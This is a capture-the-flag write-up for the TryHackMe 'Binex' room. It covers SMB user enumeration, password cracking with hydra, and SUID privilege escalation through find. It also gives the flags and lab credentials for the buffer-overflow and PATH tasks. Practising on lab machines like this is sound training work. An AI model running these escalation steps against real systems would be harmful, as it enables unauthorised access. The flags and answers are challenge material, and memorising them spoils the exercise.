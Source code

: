 see: [write-up](https://www.notion.so/BINEX-WRITE-UP-346d388fc1a34ceb83bfbb20318fb58b)

see: [writeup-alternative_interesting](https://github.com/Syp1ng/Writeups/blob/master/THM/Binex.pdf)
This method makes the use of python script


Task1: Gain Initial access
--------------------------

nmap

```
22/tcp  open  ssh         syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 3f:36:de:da:2f:c3:b7:78:6f:a9:25:d6:41:dd:54:69 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC3OBXYJUrPGglNoKPhUcwp3YiZRy6qNTHdOmGsgzy5ll+GDY8zkoIsNiqdHSaDKXvO+9ix+dZNF9CtgRDrLhL6j2Bn4RI011xveUiTF6LO7PEsv5RYI7KueOXyaw8vahdf/CdV4RQXhefge6FIZqkvhDGQsid8F3e846kJ7FPZYAcwQ5Iapv9ae1+23OZcDLtdTDlQOZIyNaVmPu0XVjHYnvHsC5r/eX/wq9WzETDVzgANMwsWOeZmjH956z4hjL7K91KHeaMnRHeO/tln1Pk9EG1eGn4FHsD1/LdumWp0pHDUXwTJ7OwuuucnzuiLrx8jDr03bEu4kPKpkB0Bc1Kb
|   256 d0:78:23:ee:f3:71:58:ae:e9:57:14:17:bb:e3:6a:ae (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJlazDOaT1mvebWCf/KbUSzgt3MCueCjEYz6Uf6tDyYG5H7HsVTbKbphLPJupB3gght1wmk+8BpQe8q4fa+1ZXQ=
|   256 4c:de:f1:49:df:21:4f:32:ca:e6:8e:bc:6a:96:53:e5 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIdOXbBN4ecgx8K412W8m2fd7R6y7c0O9uXXFv+gLusY
139/tcp open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn syn-ack Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)

Service Info: Host: THM_EXPLOIT; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Host: `thm_exploit`

port: 139 and 445 => smb enumeration for linux...

In hint: Hint 1: RID range 1000-1003
```
enum4linux -R 1000-1003 $IP

---snip ---
S-1-22-1-1000 Unix User\kel (Local User)
S-1-22-1-1001 Unix User\des (Local User)
S-1-22-1-1002 Unix User\tryhackme (Local User)
S-1-22-1-1003 Unix User\noentry (Local User)
---snip---

```
and another hint: The longest username has the unsecure password.

Obviously, username will be tryhackme for this challenge and also it the longest...

Now cracking with hydra...
```


```

Got the passwd and now login to victim via ssh


Task2: SUID::Binary 1
----------------------

Now to get the flag we have to access des home directory, for that we have to find suid binary to priv-esc

```
$ find / -type f -perm -u=s -user des -exec ls -ldb {} \; 2>/dev/null

-rwsr-sr-x 1 des des 238080 Nov  5  2017 /usr/bin/find
```

Using GTFO bin: 
```
find . -exec /bin/bash -p \; -quit
```

we got the flag as well as some info:
```
You flag is THM{exploit_the_SUID}

login crdential (In case you need it)
username: des
password: destructive_72656275696c64
```

1. What is the contents of /home/des/flag.txt?

--> THM{exploit_the_SUID}


Task3: Buffer Overflow::Binary 2
--------------------------------

1. What is the contents of /home/kel/flag.txt?

--> `THM{buffer_overflow_in_64_bit}`


Other infos:
```
The user credential
username: kel
password: kelvin_74656d7065726174757265
```

Task4: PATH Manipulation::Binary3
----------------------------------

Get the root flag from the root directory. This will require you to understand how the PATH variable works.

1. What is the contents of /root/root.txt?

--> `THM{SUID_binary_and_PATH_exploit}`

see: [https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/] (https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/)

